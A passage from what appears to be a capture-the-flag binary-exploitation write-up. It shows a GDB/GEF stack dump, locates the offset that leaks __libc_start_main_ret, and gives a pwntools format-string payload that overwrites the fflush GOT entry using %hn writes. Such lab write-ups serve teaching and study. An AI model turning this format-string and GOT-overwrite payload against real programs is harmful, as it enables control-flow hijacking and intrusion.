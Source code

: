 ```
gef➤  x/100xw $esp
0xfff0cf90: 0xfff0cfac  0x0000007f  0xf7f3e580  0x56575517
0xfff0cfa0: 0x00000002  0x000007d4  0x0000000b  0x56577514    <-- Our input here
0xfff0cfb0: 0x50505050  0x56577516  0x63256325  0x63256325
0xfff0cfc0: 0x32256325  0x33363831  0x6e682563  0x33323225
0xfff0cfd0: 0x6e682563  0x24373825  0x00000a70  0xf7dc55b0
0xfff0cfe0: 0xfff0d048  0x000003e9  0xf7dd1b7d  0xf7f3f5e0
0xfff0cff0: 0xf7f3ed20  0x0000000b  0xfff0d038  0xc27ced00
0xfff0d000: 0xf7f3ed20  0x0000000a  0x0000000b  0x565774fc
0xfff0d010: 0xf7f3e000  0xf7f3e000  0xfff0d0e8  0xf7da8469
0xfff0d020: 0xf7f3e580  0x565760f6  0xfff0d044  0x0000003a
0xfff0d030: 0xf7f3e000  0x565774fc  0xfff0d0e8  0x565758e4
0xfff0d040: 0x57e481a2  0xf7f3e000  0xfff0d0e8  0x56575806
0xfff0d050: 0xfff0d08a  0xf7f7589c  0xf7f758a0  0x00003001
0xfff0d060: 0xf7f76000  0xf7f758a0  0xfff0d08a  0x00000001
0xfff0d070: 0x00000000  0x00c30000  0x00000001  0xf7f757e0
0xfff0d080: 0x00000000  0x00000000  0x00004034  0xc27ced00
0xfff0d090: 0x029c67af  0x00000534  0x0000008e  0xf7f3ca80
0xfff0d0a0: 0x00000000  0xf7f3e000  0xf7f757e0  0xf7f41c68
0xfff0d0b0: 0xf7f3e000  0xf7f5b2f0  0x00000000  0xf7d8b402
0xfff0d0c0: 0xf7f3e3fc  0x00000001  0x565774fc  0x565759c3
0xfff0d0d0: 0x41410001  0x41414141  0x000a4141  0x57e481a0
0xfff0d0e0: 0xfff0d100  0x00000000  0x00000000  0xf7d71ee5    <-- __libc_start_main_ret
0xfff0d0f0: 0xf7f3e000  0xf7f3e000  0x00000000  0xf7d71ee5
0xfff0d100: 0x00000001  0xfff0d194  0xfff0d19c  0xfff0d124
0xfff0d110: 0xf7f3e000  0xf7f76000  0xfff0d178  0x00000000
```

> P/s: `__libc_start_main_ret` is the place where the main() `ret` to.

After couting the offset, we get that `%87$p` will point to `__libc_start_main_ret`. So our payload in stage 1 will write `%87$p` (no need to write so use this will be fine) and payload change as follows:

```
payload = p32(exe.got['fflush'])
payload += b'PPPP'
payload += p32(exe.got['fflush']+2)
payload += b'%c'*5
payload += '%{}c%hn'.format(part1-17).encode()
payload += '%{}c%hn%87$p'.format(part2-part1).encode()    # Add here
p.sendlineafter(b'But....', payload)
p.recvline()
```

Execute script and we get the leak address:

![leak_libc_start_main_ret.png](images/leak_libc_start_main_ret.png)
